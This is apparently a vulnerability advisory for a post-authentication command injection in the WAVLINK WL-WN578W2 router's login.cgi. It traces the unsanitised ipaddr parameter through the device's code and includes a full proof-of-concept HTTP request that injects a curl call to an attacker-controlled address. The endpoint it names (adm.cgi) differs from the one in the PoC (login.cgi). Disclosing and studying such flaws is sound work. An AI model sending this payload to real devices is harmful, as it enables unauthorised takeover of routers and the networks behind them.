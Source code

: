 # WAVLINK WL-WN578W2 M78W2\_V221110 Command Injection in Login Module

PS:



1.  Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device (WAVLINK WL-WN578W2) for accurate vulnerability verification.

2.  This command injection vulnerability requires **authenticated access**. The `password` parameter uses a dynamic encryption method (value changes with requests/logins), so attackers must first obtain valid credentials or a captured encrypted `password` to exploit the vulnerability.

## Overview

A command injection vulnerability exists in the login module of WAVLINK WL-WN578W2 (firmware version: M78W2\_V221110). The vulnerability resides in the `ftext` function (entry point) and `sub_401340` function (core login logic) within the `login.cgi` file, which processes the `ipaddr` parameter without input sanitization. When submitting a POST request to the `/cgi-bin/adm.cgi` (a program for handling login requests on the device) endpoint with the `page=login` action, authenticated attackers can inject arbitrary system commands via the `ipaddr` parameter. This enables unauthorized execution of system commands, access to sensitive device information, or full compromise of the device.



![Vulnerability Overview Screenshot](./imgs/1.png)

## Details



*   **Vendor**: WAVLINK

*   **Vendor Website**: [https://www.wavlink.com/](https://www.wavlink.com/) (official website)

*   **Product**: WAVLINK WL-WN578W2

*   **Firmware Version**: M78W2\_V221110 (Software version: M78W2\_V221110)

*   **Firmware Download**: Available via WAVLINK official website or device web management interface

*   **Affected Endpoint**: `/cgi-bin/adm.cgi` (POST method, a program for processing device login requests)

*   **Vulnerable Code**:


    *   `sub_401340` function in `login.cgi` (constructs and executes system commands)

*   **Vulnerability Type**: Command Injection

*   **CVE ID**: Pending

*   **Impact**:

1.  Execute arbitrary system commands on the device;

2.  Read sensitive files (e.g., device configuration, stored credentials);

3.  Modify device settings or plant malicious scripts;

4.  Pivot to internal networks (if the device acts as a gateway)

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability stems from improper input validation in the device’s login processing workflow. The `ipaddr` parameter—controlled by the user—is directly concatenated into a system command without filtering special characters, leading to command injection. Below is the detailed code flow and root cause analysis:

#### 1. Request Entry & Input Parsing (`ftext` Function)

The `ftext` function is the entry point for handling login-related requests, with key execution steps:



*   **Referer Check**: First calls `sub_403EDC` to verify the `HTTP_REFERER` header (to prevent cross-origin request forgery), but this does not block subsequent command injection.

*   **Request Body Reading**: Retrieves the `CONTENT_LENGTH` header to determine the size of the POST request body, allocates memory via `malloc`, and reads the entire request body into a buffer (`v6`) using `fgets`.

*   **Parameter Routing**: Parses the `page` parameter from the request body via `sub_4036B4` (a custom parameter-parsing function). When `page=login` (indicating a login action), the function invokes `sub_401340(v6, 0x400000)` to process core login logic, passing the full request body (containing `ipaddr`, `username`, `password`, etc.) to `sub_401340`.

#### 2. Core Login Logic & Command Injection (`sub_401340` Function)

The `sub_401340` function handles credential verification and post-login configuration, and contains the vulnerable code segment:



*   **Parameter Parsing**: Extracts the `ipaddr` parameter from the input buffer (passed by `ftext`) using `sub_4036B4("ipaddr", a1, 0)`, and stores the parsed value in the `v9` variable.

*   **Credential Verification**: Compares the encrypted `password` parameter from the request with the device’s stored credentials (retrieved via `wlink_uci_get_value`). Only after successful verification does the function proceed to the command construction step.

*   **Vulnerable Command Construction**: After passing credential checks, the function constructs a system command using `sprintf` and executes it via `system`


*   **Root Cause**: The `ipaddr` parameter (`v9`) is not filtered for command delimiters (e.g., `;` for command separation, `&&` for logical AND, `|` for pipe, `#` for comment). Attackers can use these delimiters to "break out" of the original `applogin.sh`` del` command context and append arbitrary malicious commands.



![Disassembly Snippet 1: Vulnerable Code Path](./imgs/2.png)



![Disassembly Snippet 2: Command Construction Flow](./imgs/3.png)

## Proof of Concept (PoC)

### PoC: Inject `curl` Command to Verify Execution

This PoC uses the `ipaddr` parameter to inject a `curl` command, which sends a request to an attacker-controlled server—proving successful command execution. A **valid encrypted **`password` (captured via legitimate login) is required.

#### Full PoC HTTP Request



```
POST /cgi-bin/login.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 300
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

newUI=1&page=login&username=admin&langChange=0&ipaddr=%3A%3Affff%3A192.168.10.154;curl http://192.168.10.154:1234#&login_page=login.shtml&homepage=main.shtml&sysinitpage=sysinit.shtml&wizardpage=wizard.shtml&hostname=192.168.10.1&key=M55373357&password=a870e4ba57ee340c2c29f6e7dbd17abb&lang_select=cn
```

#### PoC Execution Results



*   **Failure (Wrong Password Hash)**: If the `password` parameter uses an invalid/incorrect encrypted hash, the device rejects the login request before reaching the command execution step. No `curl` request is sent to the attacker’s server, and the PoC fails.



![PoC Result: Wrong Password Hash (Failure)](./imgs/4.png)



*   **Success (Right Password Hash)**: If the `password` parameter uses a valid encrypted hash, the device passes credential verification, executes the injected `curl` command, and the attacker’s server records the request.



![PoC Result: Right Password Hash (Success)](./imgs/5.png)



